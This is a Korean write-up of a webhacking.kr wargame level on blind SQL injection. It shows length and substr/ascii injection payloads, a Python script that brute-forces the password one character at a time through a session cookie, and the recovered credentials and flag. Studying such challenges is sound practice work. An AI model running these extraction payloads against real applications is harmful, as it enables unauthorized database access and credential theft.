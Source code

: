 ```yaml
---
title: "[Web.kr]Level 21"
tags: [Wargame, webhacking.kr(Old), Write-up]
author: eli_ez3r
key: 20180903
modify_date: 2018-09-03
article_header:
  type: cover
  image:
    src: 
---
```


<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 21/image-20180726144412211.png" width="400px">

<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 21/image-20180726144840924.png" width="400px">

Blind SQL Injection이라고 되어 있다. 주소창을 보니 no, id, pw값을 입력받고 있다.

no에 숫자들을 입력해 보니 True라고 나오는 숫자는 1과 2뿐이다. 따라서 id값은 1과 2이다.

이제 각 id에 맞는 id와 pw를 찾아내야 한다.

<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 21/image-20180726145056313.png" width="300px">

<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 21/image-20180726145219268.png" width="300px">

`1 and length(id)=5` 를 이용하여 id의 길이가 5인 것과, pw의 길이가 5인 것을 알아 냈다. 똑같은 방법으로 no가 2인 id와 pw의 길이도 알아내면 id는 5, pw는 19의 길이를 가지고 있다.

|  no  |  id   |   pw   |
| :--: | :---: | :----: |
|  1   | ? (5) | ? (5)  |
|  2   | ? (5) | ? (19) |



이제 아이디를 찾아보자. 보통 5의 길이를 가진 id는 'admin'이 있다. 이를 예측해보고 no=1의 id를 substr()를 이용하여 찾아보자.

`1 and ascii(substr(id, 1, 1))=97` 

위 명령어는 no가 1이고, id의 첫번째 인덱스에서 1byte가 ascii코드로 97('a')인지 확인하는 명령어이다.

<img src="http://eliez3r.synology.me/assets/img/writeup/webkr/Level 21/image-20180726145852871.png" width="300px">

생각처럼 no=1의 id는 'admin'이 아닌것 같다. 하지만 같은 방식으로 no=2의 id를 비교해보니 'admin'이 맞았다.

|  no  |    id     |   pw   |
| :--: | :-------: | :----: |
|  1   |   ? (5)   | ? (5)  |
|  2   | admin (5) | ? (19) |

이렇게 하나하나씩 다 비교해 보는 것은 매우 힘든일이다. 한글자 마다 ascii코드 33부터 136까지 다 비교해봐야 하기 때문이다. 

```python
import requests

url = 'http://webhacking.kr/challenge/bonus/bonus-1/index.php?'
cookie={'PHPSESSID':'b82bba458acf3b6fd70126be82c02e2f'}
pw = ''

# no=1
for i in range(1, 6):
    for j in range(33, 137):
        query = "no=1 and ascii(substr(pw,"+str(i)+" ,1))="+str(j)
        payload = url+query
        print("Password Parsing : "+pw+chr(j))
        res = requests.get(payload, cookies=cookie)
        if((res.text).find("True")>0):
            pw += chr(j)
            print("Find PW : "+pw)
            break

print("[+]Finish Password Parsing...")
print("Password : "+pw)
```

힘든건 컴퓨터한테 시키면 된다.

|  no  |    id     |            pw            |
| :--: | :-------: | :----------------------: |
|  1   |   ? (5)   |        guest (5)         |
|  2   | admin (5) | blindsqlinjectionkk (19) |

no=1의 pw를 찾다보니 비밀번호 한자리씩 파싱하는데 시간이 1-2초씩 소비하였다. 5글자 알아내는대도 5분정도 걸린것 같다. no=2의 pw는 소문자 일것으로 추측하고 경우의 수를 줄여 파싱을 진행하였다. (시간은 금이니까 😏)

##### **flag = blindsqlinjectionkk**

